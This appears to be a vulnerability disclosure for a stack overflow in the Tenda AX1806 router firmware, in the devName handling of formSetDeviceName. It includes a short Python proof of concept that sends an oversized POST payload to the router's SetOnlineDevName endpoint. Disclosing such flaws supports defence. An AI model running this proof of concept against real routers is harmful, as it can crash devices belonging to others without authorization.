 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3422.html

## Affected version

AX1806 V1.0.0.1

## Vulnerability details

The Tenda AX1806 V1.0.0.1 firmware has a stack overflow vulnerability in the `formSetDeviceName` function. The `v3` variable receives the `devName` parameter from a POST request and is passed to function `sub_3CD64`. In this function, `a1` is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `devName` can trigger this security vulnerability.

![image-20240418170516669](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418170516669.png)

![image-20240418170614798](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418170614798.png)

![image-20240418170623768](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418170623768.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*2000

data = {"mac": 1,"devName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240418170641285](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418170641285.png)
